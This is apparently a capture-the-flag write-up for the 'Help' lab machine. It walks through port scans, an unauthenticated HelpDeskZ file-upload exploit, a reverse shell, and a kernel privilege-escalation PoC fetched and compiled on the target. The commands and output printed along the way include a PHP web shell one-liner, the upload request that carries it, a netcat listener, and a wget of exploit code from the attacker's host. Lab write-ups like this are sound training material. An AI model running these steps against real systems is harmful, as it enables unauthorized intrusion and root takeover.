










# Help - Easy

Target IP: **10.129.230.159**

## User Flag

Initial Nmap scans: ```sudo nmap --open 10.129.230.159 -vvv```

The output shows an unusual service hosted on port 3000. PPP?

```
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-10 12:16 EDT
Initiating Ping Scan at 12:16
Scanning 10.129.230.159 [4 ports]
Completed Ping Scan at 12:16, 0.04s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 12:16
Completed Parallel DNS resolution of 1 host. at 12:16, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 12:16
Scanning 10.129.230.159 [1000 ports]
Discovered open port 80/tcp on 10.129.230.159
Discovered open port 22/tcp on 10.129.230.159
Discovered open port 3000/tcp on 10.129.230.159
Completed SYN Stealth Scan at 12:16, 0.19s elapsed (1000 total ports)
Nmap scan report for 10.129.230.159
Host is up, received reset ttl 63 (0.0100s latency).
Scanned at 2026-09-10 12:16:01 EDT for 0s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1001 (40.052KB)
```

A search online reveals that TCP port 3000 is used for web development servers like Node.js, React, or Express, but Nmap commonly misclassifies it as a diagnostic or server control port for Point-to-Point Protocol (PPP) daemon. Either can be true. 

Let's try to get a better idea of what we are dealing here with a more thorough scan: ```sudo nmap -sC -sV 10.129.230.159 -v```

The output for this scan confirms the online search, as port 3000 was identified as hosting an instance of Node.js Express framework. Additionally, we can see the url ```http://help.htb/``` on the output of the ```http-title``` NSE script for port 80 running Apache version 2.4.18 on Ubuntu.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://help.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's try navigating to the web server after adding the ```help.htb``` to our ```/etc/hosts``` file. We are greeted with the default welcome page of an Apache2 server installation. This is definitely a potential vector that we should dig deeper.



I was curious about port 3000, so I tried navigating to it. The page shows a static message naming a potential ```shiv``` user, and finding "credentials with given query." This is definitely interesting, but I didn't see a clear pathway forward from here.



Returning to the default Apache2 page, I performed directory enumeration with ```ffuf``` and got back some interesting results. We have the ```support``` and ```javascript``` directories redirecting us with a HTTP 301 status code, and a ```server-status``` giving us a HTTP 403 'Forbidden' status code, which means that we lack the permissions to access it.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-freuyexdea]─[/usr/share/wordlists/dirbuster]
└──╼ [★]$ ffuf -u http://help.htb/FUZZ -w directory-list-2.3-medium.txt:FUZZ -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://help.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

support                 [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 7ms]
javascript              [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 6ms]
                        [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 2295ms]
                        [Status: 200, Size: 11321, Words: 3503, Lines: 376, Duration: 7ms]
server-status           [Status: 403, Size: 296, Words: 22, Lines: 12, Duration: 7ms]
:: Progress: [220547/220547] :: Job [1/1] :: 1538 req/sec :: Duration: [0:01:24] :: Errors: 0 ::
```

Let's navigate to the newly found directories. First up: ```support```. We are greeted with an instance of a "Help Desk Software" by HelpDeskZ. We are able to log in and submit a ticket. I smell some potential web vulnerabilities here.



Next up: ```javascript```. Contrary to the scan results, it gives us a forbidden error, telling us that we can't access ```/javascript/``` on this server.



I see two clear ways we can try progressing here: Either by finding a public exploit for Apache2 version 2.4.18 or manipulating the requests sent by submitting the forms on the HelpDeskZ instance. Let's try the first. The ```Apache 2.4.17 < 2.4.38 - 'apache2ctl'``` exploit seemed interesting, but the exploit is concerned with local privilege escalation, so we first need initial access. Still might be worth it to come back to.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-freuyexdea]─[~]
└──╼ [★]$ searchsploit apache 2.4.18
------------------------------------ ---------------------------------
 Exploit Title                      |  Path
------------------------------------ ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - c | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - R | php/remote/29316.py
Apache 2.4.17 < 2.4.38 - 'apache2ct | linux/local/46676.php
Apache < 2.2.34 / < 2.4.27 - OPTION | linux/webapps/42745.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - D | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'O | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'O | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'O | unix/remote/764.c
Apache OpenMeetings 1.9.x < 3.1.0 - | linux/webapps/39642.txt
Apache Tomcat < 5.5.17 - Remote Dir | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Dir | multiple/remote/6229.txt
Apache Tomcat < 6.0.18 - 'utf8' Dir | unix/remote/14489.c
Apache Tomcat < 9.0.1 (Beta) / < 8. | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8. | windows/webapps/42953.txt
Apache Xerces-C XML Parser < 3.1.2  | linux/dos/36906.txt
Webfroot Shoutbox < 2.32 (Apache) - | linux/remote/34.pl
------------------------------------ ---------------------------------
Shellcodes: No Results
```

Let's try playing around with the HelpDeskZ instance we saw on ```/support```. First enumerating a bit further, I found an interesting result about ```/support/user.php...``` running Post Nuke 0.7.2.3-Phoenix, which is vulnerable to XSS. There wasn't a directly accessible ```user.php``` on the ```/support/``` directory, but maybe that's where the forms on the website sends requests to?

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-freuyexdea]─[~]
└──╼ [★]$ nikto -host http://10.129.230.159/support
- Nikto v2.6.0
---------------------------------------------------------------------------
+ Target IP:          10.129.230.159
+ Target Hostname:    10.129.230.159
+ Target Port:        80
+ Platform:           Unknown
+ Start Time:         2026-09-10 15:19:13 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ ERROR: Failed to check for updates: 403
+ No CGI Directories found (use '-C all' to force check all possible dirs). CGI tests skipped.
+ [600050] Apache/2.4.18 appears to be outdated (current is at least 2.4.66).
+ [013587] /support/: Suggested security header missing: permissions-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Permissions-Policy
+ [013587] /support/: Suggested security header missing: x-content-type-options. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Content-Type-Options
+ [013587] /support/: Suggested security header missing: strict-transport-security. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ [013587] /support/: Suggested security header missing: content-security-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
+ [013587] /support/: Suggested security header missing: referrer-policy. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referrer-Policy
+ [000777] /support/user.php?op=confirmnewuser&module=NS-NewUser&uNikto=%22%3E%3Cimg%20src=%22javascript:alert(document.cookie);%22%3E&email=test@test.com: Post Nuke 0.7.2.3-Phoenix is vulnerable to Cross Site Scripting (XSS).
```

Let's capture some requests. The forms of interest is the login form and the ticket submission form. Starting with the login form, let's send a junk request and see what's inside.

Submitting the login form sends a HTTP POST request to ```/support/v?=login``` with parameters ```do```, ```csrfhash```, ```email```, and ```password```, while setting a ```PHPSESSID``` for us. If we could access the ```PHPSESSID``` and ```csrfhash``` of another user, maybe we could log in as them? But right now, there doesn't seem to be a clear way in with this request.



Let's move on to the ticket submission form. Looking at the form, my radars go off seeing the file attachment section of the form. If we could upload a shell and figure out where it is stored, we could get web shell access.



Let's now send a junk ticket and analyze the request sent. I'm also going to try uploading a php file containing a web shell one-liner: ```<?php system($_GET['cmd']); ?>```. Looking at the request, it sents a HTTP POST request to a url with two query strings, ```v=submit_ticket&action=confirmation```.

```
POST /support/?v=submit_ticket&action=confirmation HTTP/1.1
Host: help.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://help.htb/support/?v=submit_ticket&action=displayForm
Content-Type: multipart/form-data; boundary=----geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235
Content-Length: 1285
Origin: http://help.htb
DNT: 1
Connection: keep-alive
Cookie: lang=english; PHPSESSID=etne3jpknkmonfkcrps967egb3
Upgrade-Insecure-Requests: 1
Priority: u=0, i

------geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235
Content-Disposition: form-data; name="csrfhash"

d261331852747abd3d32d97bfe38fd5a
------geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235
Content-Disposition: form-data; name="department"

1
------geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235
Content-Disposition: form-data; name="fullname"

a
------geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235
Content-Disposition: form-data; name="email"

a@a.com
------geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235
Content-Disposition: form-data; name="priority"

6
------geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235
Content-Disposition: form-data; name="subject"

a
------geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235
Content-Disposition: form-data; name="message"

a
------geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235
Content-Disposition: form-data; name="attachment"; filename="a.php"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>

------geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235
Content-Disposition: form-data; name="captcha"

A
------geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235
Content-Disposition: form-data; name="btn"

Submit
------geckoformboundary5e013e52ff4e0e39b8f5f6f739cd8235--
```

After forwarding the request on Burp, we get this error. Maybe the ```csrfhash``` value in our request is different from what is expected from the server?



I tried sending another ticket with the php file, and got back this error, which makes me think there is definitely some kind of filtering going on.



Investigating deeper into the file upload mechanism, the ticket submission worked when I sent in a blank ```.txt``` file. Maybe we can capture this request and manipulate the request itself?

Nope, still says the file is not allowed. This makes me believe that the filtering is happening entirely on the back-end, as I also looked through the front-end source code and did not find any interesting filtering functions.



Next, I forwarded the request to Burp Intruder, where I tried fuzzing the ```.php``` file extension with other [alternatives](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/refs/heads/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst) to see if we can bypass the filter. Additionally, I changed the ```Content-Type``` of the file to ```image/png``` to see if it would help.

However, on every single instance of the sniper attack, I got back the same response with the cross-site request forgery detected error. Why was this happening? The ```csrfhash``` expected by the server might change every request or ticket submission attempt.



At this point I was pretty lost, and I decided to return to extra enumeration. I performed a recursive ffuf scan on ```/support``` and got a promising result. If I had to guess, ```/support/uploads/tickets``` was probably where the attached files from the tickets were being stored at.

```
[Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 7ms]
| URL | http://help.htb/support/uploads/tickets
| --> | http://help.htb/support/uploads/tickets/
    * FUZZ: tickets
```

I should've done this at the beginning, but I looked for publicly known vulnerabilities for HelpDeskZ, and found an exploit that seemed promising:

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-freuyexdea]─[~]
└──╼ [★]$ searchsploit HelpDeskZ
------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                              |  Path
------------------------------------------------------------------------------------------------------------ ---------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload                                                                     | php/webapps/40300.py
```

According to the exploit, PHP file uploads are actually allowed in the default configuration of HelpDeskZ, contrary to what we saw with the error message. Additionally, the file path of the uploaded file is obfuscated weakly with a predictable pattern. Let's upload a php reverse shell, set up a netcat listener, figure out the path of the uploaded file by running the exploit, then navigate to the url of the file to try to get a connection back. Note that I had to install python2 on the Pwnbox to run this exploit. 

I went down a whole rabbit hole of trying to fix the exploit code because there was a problem with a time misalignment between the server and the attack box... let me just say it took a while (and a reboot) to figure it out. Ultimately we get the link to the uploaded php shell here.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-if7ty19kri]─[~]
└──╼ [★]$ python2 40300.py http://help.htb/support/uploads/tickets/ shell.php
Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
1789082821
found!
http://help.htb/support/uploads/tickets/0bcd3894f926875362aca858cfd03f95.php
```

Let us navigate to the url and see if we get a connection back on our listener. 

```
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.61.174 47256
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 16:29:50 up 26 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
help
```

We get a shell as the ```help``` user, and we can get the user flag from here. 

## Root Flag

Since we are inside of the machine, let's perform some basic enumeration. I wonder if there is a kernel exploit we can use here?

```
$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

Guess what? There is a privilege escalation vulnerability in this version of the linux kernel, CVE-2017-16995. I will use this [PoC](https://raw.githubusercontent.com/Khalidhaimur/privilege-escalation/refs/heads/main/45010.c) for exploitation. Let's get the ```.C``` file on our attack box, transfer it to the remote machine, compile it on the remote machine (```gcc``` is installed), then run the exploit.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-if7ty19kri]─[~]
└──╼ [★]$ wget https://raw.githubusercontent.com/Khalidhaimur/privilege-escalation/refs/heads/main/45010.c
--2026-09-10 19:49:17--  https://raw.githubusercontent.com/Khalidhaimur/privilege-escalation/refs/heads/main/45010.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.108.133, 185.199.109.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13728 (13K) [text/plain]
Saving to: ‘45010.c’

45010.c                             100%[=================================================================>]  13.41K  --.-KB/s    in 0s      

2026-09-10 19:49:17 (137 MB/s) - ‘45010.c’ saved [13728/13728]

┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-if7ty19kri]─[~]
└──╼ [★]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.61.174 - - [10/Sep/2026 19:52:11] "GET /45010.c HTTP/1.1" 200 -
```

Our compiler gets a bit mad at us but it's okay.

```
$ wget http://10.10.15.194:8000/45010.c
--2026-09-10 16:52:11--  http://10.10.15.194:8000/45010.c
Connecting to 10.10.15.194:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13728 (13K) [text/x-csrc]
Saving to: '45010.c'

     0K .......... ...                                        100% 2.97M=0.004s

2026-09-10 16:52:11 (2.97 MB/s) - '45010.c' saved [13728/13728]

$ gcc 45010.c -o exploit -Wall -Wextra -O2 -pthread              
45010.c: In function 'bpf_create_map':
45010.c:94:27: warning: unused parameter 'map_flags' [-Wunused-parameter]
      int max_entries, int map_flags)
                           ^
45010.c: In function 'main':
45010.c:488:10: warning: unused parameter 'argc' [-Wunused-parameter]
 main(int argc, char **argv) {
          ^
45010.c:488:23: warning: unused parameter 'argv' [-Wunused-parameter]
 main(int argc, char **argv) {
                       ^
45010.c: In function 'find_cred':
45010.c:472:1: warning: control reaches end of non-void function [-Wreturn-type]
 }
 ^
$ chmod +x exploit
$ ./exploit
whoami
root
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

